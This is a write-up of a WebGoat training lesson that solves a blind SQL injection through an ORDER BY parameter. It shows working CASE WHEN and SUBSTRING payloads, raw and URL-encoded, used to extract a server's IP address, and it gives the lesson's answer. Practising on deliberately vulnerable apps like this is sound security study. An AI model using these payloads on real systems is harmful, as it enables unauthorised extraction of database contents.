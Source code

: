 # Challenge name: Lesson 12

### Challenge Description:

In this assignment try to perform an SQL injection through the ORDER BY field. Try to find the ip address of the `webgoat-prd` server, guessing the complete ip address might take too long so we give you the last part: `xxx.130.219.202`

> Note: The submit field of this assignment is **NOT** vulnerable to an SQL injection.

### My solution
- Use Burp Suit and look at the header
![img](chall-attached/img-3.png)
- I can guess full query like: `SELECT ... FROM servers ORDER BY [column]`
- Change column name, I get result
![img](chall-attached/img-4.png)
- From `lesson 11` I think I can use this payload `(CASE WHEN (TRUE) THEN hostname ELSE id END)`
- Replace column by this payload, but we're working with URI, URL Encode this payload.
`(CASE%20WHEN%20(TRUE)%20THEN%20hostname%20ELSE%20id%20END)`
![img](chall-attached/img-5.png)
- It's working!
- Now, replace `TRUE` by your query to find 3 first number of ip, if query result is `TRUE` list will order by hostname else if `FALSE` list will order by id. And my full payload is:
`(CASE WHEN (SELECT SUBSTRING(ip,1,1) FROM servers WHERE hostname = 'webgoat-prd')='1' THEN hostname ELSE id END)`
And URL Encode it:
`(CASE%20WHEN%20(SELECT%20SUBSTRING(ip%2C1%2C1)%20FROM%20servers%20WHERE%20hostname%20%3D%20'webgoat-prd')%3D'1'%20THEN%20hostname%20ELSE%20id%20END)`
- Change index and keyword to find ip.
- Answer: `104.130.219.202`

### References
[Blind SQL Injection ('Order by' command)](https://portswigger.net/support/sql-injection-in-the-query-structure)